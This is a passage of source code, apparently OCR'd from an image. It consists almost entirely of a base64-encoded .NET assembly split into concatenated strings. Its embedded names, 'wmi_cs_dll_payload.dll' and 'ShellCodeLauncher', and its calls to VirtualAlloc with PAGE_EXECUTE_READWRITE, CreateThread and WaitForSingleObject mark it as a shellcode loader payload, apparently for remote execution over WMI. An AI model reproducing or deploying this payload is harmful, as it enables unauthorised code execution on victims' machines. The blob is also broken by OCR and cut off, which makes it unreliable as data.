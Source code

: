     "1YXAdAr/Tgh17OhnAAAAagBqBFZXaALZyF//1YP4AH42izZqQGgAEAAAVmoAaFikU+X/1ZNTagBW"+
    "U1doAtnIX//Vg/gAfShYaABAAABqAFBoCy8PMP/VV2h1bk1h/9VeXv8MJA+FcP///+mbAcMp"+
    "xnXBw7vwtaJWagBT/9UAAAATMAYAZQAAAAEAABEAIFUBAACNBgAAASXQAwAABCgGAAAKC
    hYGjml+"+"AQAABH4CAAAEKAMAAAYLBhYHbigHAAAKBo5pKAgAAAoAfgkAAAoMFg1+CQAAChMEFhYHEQQWEgMo"+
    "BAAABgwIFSgFAAAGJisAKkogABAAAIABAAAEH0CAAgAABCpCU0pCAQABAAAAAAAMAAAAdjQuMC4z"+
    "MDMxOQAAAAAFAGwAAABgAgAAI34AAMwCAABkAwAAI1N0cmluZ3MAAAAAMAYAAAgAAAAjVVMAOAYA"+
    "ABAAAAAjR1VJRAAAAEgGAAA0AQAAI0Jsb2IAAAAAAAAAAgAAAVfVAjQJAgAAAPolMwAWAAABAAAA"+
    "DwAAAAQAAAADAAAABgAAAAwAAAALAAAABAAAAAEAAAABAAAAAQAAAAEAAAADAAAAAQAAAAEAAAAB"+
    "AAAAAQAAAAAACgABAAAAAAAGAEsARAAGAFsBPwEGAHcBPwEGAKYBhgEGAMYBhgEGAPcBRAAGAEEC"+
    "hgEGAFwCRAAGAJgChgEGAKcCRAAGAK0CRAAGANACRAAGAAID4wIGABQD4wIGAEcDNwMAAAAAAQAA"+
    "AAAAAQABAAEAEAAhACkABQABAAEAAAAAAPwBAAAFAAMABwATAQAAZgIAACEABAAHABEAXQASABEA"+
    "aAASABMBhAI+AFAgAAAAAIYYUgAKAAEAwCEAAAAAkQBYAA4AAQAAAAAAgACRIH8AFQABAAAAAACA"+
    "AJEgjAAdAAUAAAAAAIAAkSCZACgACwAxIgAAAACRGDADDgANAAAAAQCtAAAAAgC5AAAAAwC+AAAA"+
    "BADPAAAAAQDZAAAAAgDsAAAAAwD4AAAABAAHAQAABQANAQAABgAdAQAAAQAoAQAAAgAwAREAUgAu"+
    "ACEAUgA0ACkAUgAKAAkAUgAKADkAUgAKAEkAwAJCAGEA1wJKAGkACgNPAGEADwNYAHEAUgBkAHkA"+
    "UgAKACcAWwA5AC4AEwBpAC4AGwByAGMAKwA5AAgABgCRAAEAVQEAAAQAWwAnAwABBwB/AAEAAAEJ"+
    "AIwAAQAAAQsAmQABAGggAAADAASAAAAAAAAAAAAAAAAAAAAAAOQBAAAEAAAAAAAAAAAAAAABADsA"+
    "AAAAAAQAAwAAAAA8TW9kdWxlPgB3bWlfY3NfZGxsX3BheWxvYWQuZGxsAFByb2dyYW0AU2hlbGxD"+
    "b2RlTGF1bmNoZXIAbXNjb3JsaWIAU3lzdGVtAE9iamVjdAAuY3RvcgBNYWluAE1FTV9DT01NSVQA"+
    "UEFHRV9FWEVDVVRFX1JFQURXUklURQBWaXJ0dWFsQWxsb2MAQ3JlYXRlVGhyZWFkAFdhaXRGb3JT"+
    "aW5nbGVPYmplY3QAbHBTdGFydEFkZHIAc2l6ZQBmbEFsbG9jYXRpb25UeXBlAGZsUHJvdGVjdABs"+
    "cFRocmVhZEF0dHJpYnV0ZXMAZHdTdGFja1NpemUAbHBTdGFydEFkZHJlc3MAcGFyYW0AZHdDcmVh"+
    "dGlvbkZsYWdzAGxwVGhyZWFkSWQAaEhhbmRsZQBkd01pbGxpc2Vjb25kcwBTeXN0ZW0uU2VjdXJp"+
    "dHkuUGVybWlzc2lvbnMAU2VjdXJpdHlQZXJtaXNzaW9uQXR0cmlidXRlAFNlY3VyaXR5QWN0aW9u"+
    "AFN5c3RlbS5SdW50aW1lLkNvbXBpbGVyU2VydmljZXMAQ29tcGlsYXRpb25SZWxheGF0aW9uc0F0"+
    "dHJpYnV0ZQBSdW50aW1lQ29tcGF0aWJpbGl0eUF0dHJpYnV0ZQB3bWlfY3NfZGxsX3BheWxvYWQA"+
    "Qnl0ZQA8UHJpdmF0ZUltcGxlbWVudGF0aW9uRGV0YWlscz57MEQxQTVERjAtRDZCNy00RUUzLUJB"+
    "QzItOTY0MUUyREJCMDNFfQBDb21waWxlckdlbmVyYXRlZEF0dHJpYnV0ZQBWYWx1ZVR5cGUAX19T"+
    "dGF0aWNBcnJheUluaXRUeXBlU2l6ZT0zNDEAJCRtZXRob2QweDYwMDAwMDItMQBSdW50aW1lSGVs"+
    "cGVycwBBcnJheQBSdW50aW1lRmllbGRIYW5kbGUASW5pdGlhbGl6ZUFycmF5AEludFB0cgBvcF9F"+
    "eHBsaWNpdABTeXN0ZW0uUnVudGltZS5JbnRlcm9wU2VydmljZXMATWFyc2hhbABDb3B5AFplcm8A"+
    "RGxsSW1wb3J0QXR0cmlidXRlAGtlcm5lbDMyAC5jY3RvcgBTeXN0ZW0uU2VjdXJpdHkAVW52ZXJp"+
    "ZmlhYmxlQ29kZUF0dHJpYnV0ZQAAAAAAAyAAAAAAAPBdGg231uNOusKWQeLbsD4ACLd6XFYZNOCJ"+
    "AyAAAQMAAAECBgkHAAQJCQkJCQoABhgJCQkYCRAJBQACCRgJBSABARENBCABAQgEAQAAAAMGERAH"+
    "AAIBEikRLQQAARgKCAAEAR0FCBgIAgYYCAcFHQUJGAkYBCABAQ4IAQAIAAAAAAAeAQABAFQCFldy"+
    "YXBOb25FeGNlcHRpb25UaHJvd3MBgJ4uAYCEU3lzdGVtLlNlY3VyaXR5LlBlcm1pc3Npb25zLlNl"+
    "Y3VyaXR5UGVybWlzc2lvbkF0dHJpYnV0ZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3Vs"+
    "dHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5FQFUAhBTa2lwVmVy"+
    "aWZpY2F0aW9uAQAAAOgpAAAAAAAAAAAAAP4pAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwKQAA"+
    "AAAAAAAAX0NvckRsbE1haW4AbXNjb3JlZS5kbGwAAAAAAP8lACAAEAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAQAAAAGAAAgAAAAAAAAAAAAAAAAAAA"+
    "AQABAAAAMAAAgAAAAAAAAAAAAAAAAAAAAQAAAAAASAAAAFhAAAB0AgAAAAAAAAAAAAB0AjQAAABW"+
    "AFMAXwBWAEUAUgBTAEkATwBOAF8ASQBOAEYATwAAAAAAvQTv/gAAAQAAAAAAAAAAAAAAAAAAAAAA"+
    "PwAAAAAAAAAEAAAAAgAAAAAAAAAAAAAAAAAAAEQAAAABAFYAYQByAEYAaQBsAGUASQBuAGYAbwAA"+
    "AAAAJAAEAAAAVAByAGEAbgBzAGwAYQB0AGkAbwBuAAAAAAAAALAE1AEAAAEAUwB0AHIAaQBuAGcA"+
    "RgBpAGwAZQBJAG4AZgBvAAAAsAEAAAEAMAAwADAAMAAwADQAYgAwAAAALAACAAEARgBpAGwAZQBE"+
    "AGUAcwBjAHIAaQBwAHQAaQBvAG4AAAAAACAAAAAwAAgAAQBGAGkAbABlAFYAZQByAHMAaQBvAG4A"+
    "AAAAADAALgAwAC4AMAAuADAAAABQABcAAQBJAG4AdABlAHIAbgBhAGwATgBhAG0AZQAAAHcAbQBp"+
    "AF8AYwBzAF8AZABsAGwAXwBwAGEAeQBsAG8AYQBkAC4AZABsAGwAAAAAACgAAgABAEwAZQBnAGEA"+
    "bABDAG8AcAB5AHIAaQBnAGgAdAAAACAAAABYABcAAQBPAHIAaQBnAGkAbgBhAGwARgBpAGwAZQBu"+
    "AGEAbQBlAAAAdwBtAGkAXwBjAHMAXwBkAGwAbABfAHAAYQB5AGwAbwBhAGQALgBkAGwAbAAAAAAA"+
    "NAAIAAEAUAByAG8AZAB1AGMAdABWAGUAcgBzAGkAbwBuAAAAMAAuADAALgAwAC4AMAAAADgACAAB"+
    "AEEAcwBzAGUAbQBiAGwAeQAgAFYAZQByAHMAaQBvAG4AAAAwAC4AMAAuADAALgAwAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+